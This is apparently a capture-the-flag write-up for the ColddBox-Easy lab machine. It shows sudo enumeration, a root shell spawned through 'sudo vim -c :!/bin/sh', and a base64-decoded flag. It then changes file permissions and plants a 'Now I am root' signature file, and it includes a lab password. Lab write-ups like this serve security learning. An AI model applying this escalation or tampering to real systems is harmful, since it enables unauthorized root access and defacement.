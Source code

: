 1)  I see all privilegie such as root:
```
c0ldd@ColddBox-Easy:/$ sudo -l
sudo -l
[sudo] password for c0ldd: cybersecurity

Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
```
2) Spawn a shell:
```
sudo vim -c ':!/bin/sh'

:!/bin/sh
# whoami
whoami
root
#  
```
3) I get the root.txt:
```
# cd /root/              
cd /root/
# ls
ls
root.txt
# cat root.txt
cat root.txt
wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=
# 
```
4) I decode the flag:
```
┌──(kali㉿kali)-[~]
└─$ nano password.txt
┌──(kali㉿kali)-[~]
└─$ base64 --decode password.txt
¡Felicidades, máquina completada!                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ 
```

---------
## Patch the machines vulnerabilities

1) I change all the permess that they generate the privilege escalation:
```
# chmod a=-x-w-r /usr/bin/vim
chmod a=-x-w-r /usr/bin/vim
# chmod u=+x+w+r /usr/bin/vim
chmod u=+x+w+r /usr/bin/vim
# chmod a=-x-w-r /usr/bin/ftp
chmod a=-x-w-r /usr/bin/ftp
# chmod a=-x-w-r /bin/chmod
chmod a=-x-w-r /bin/chmod
# 
```
2) I leave my signature:
```
# cd /home/c0ldd
cd /home/c0ldd
# touch README.txt
touch README.txt
# echo 'CyberSpider  has been here, Now I am root :)' > README.txt
echo 'CyberSpider  has been here, Now I am root :)' > README.txt
# cat README.txt
cat README.txt
CyberSpider  has been here, Now I am root :)
# chmod a=+r README.txt
```